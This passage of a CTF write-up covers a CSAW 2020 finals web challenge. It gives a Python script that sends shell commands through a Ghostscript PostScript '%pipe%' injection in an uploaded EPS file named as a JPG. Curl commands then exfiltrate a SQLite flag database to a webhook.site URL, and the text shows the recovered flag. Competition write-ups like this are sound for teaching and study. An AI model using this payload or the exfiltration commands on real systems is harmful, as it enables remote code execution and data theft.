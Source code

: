 Since we have RCE and `sqlite3` at hand we just need to exfiltrate the information,
this part took the longest because I didn't realize straight away the output would be cut in whitespace.
I am also pretty sure I could reverse shell the challenge since we had a VPN but oh well...

I wrote a submission script:

```python
#!/usr/bin/env python3

import requests

url = "http://web.chal.csaw.io:5000/"
headers = {
    "Host": "web.chal.csaw.io:5000",
    "User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0",
}

while True:
    cmd = input("> ")
    f = """%!PS-Adobe-3.0 EPSF-3.0
%%BoundingBox: -0 -0 100 100

userdict /setpagedevice undef
save
legal
{ null restore } stopped { pop } if
{ legal } stopped { pop } if
restore
mark /OutputFile (%pipe%{}) currentdevice putdeviceprops
    """.format(cmd)
resp = requests.post(url, headers=headers, files={"image": ("exploit.jpg", f)})
print(resp.status_code)
```

After running the command:

```
curl https://webhook.site/15a28193-cf70-44b8-b993-d72f0c5bb844 -d $(sqlite3 /home/picgram/flag.db '.tables' | tr -s ' ' ':' | tr -s '\n' '-' | tr -s '\t' ':')
```

We find a single table - `projects`.
Now we dump the table, and then filter it with `tr`, reversing the "concatenation".

```
curl https://webhook.site/15a28193-cf70-44b8-b993-d72f0c5bb844 -d $(sqlite3 /home/picgram/flag.db 'select * from projects' | tr -s ' ' ':' | tr -s '\n' '-' | tr -s '\t' ':')
```

Searching through the dump we find the flag:

```
77|iS thIs ThE flAg??|b'flag{th4t_w4s_s0m3_sp00ky_scr1pt1ng}\n'
```

### Shark Facts

The challenge would create a repository

---

Files for these challenges can be found in [here](https://github.com/jmg-duarte/ctfs/tree/master/assets/challenges/2020/csaw-final)


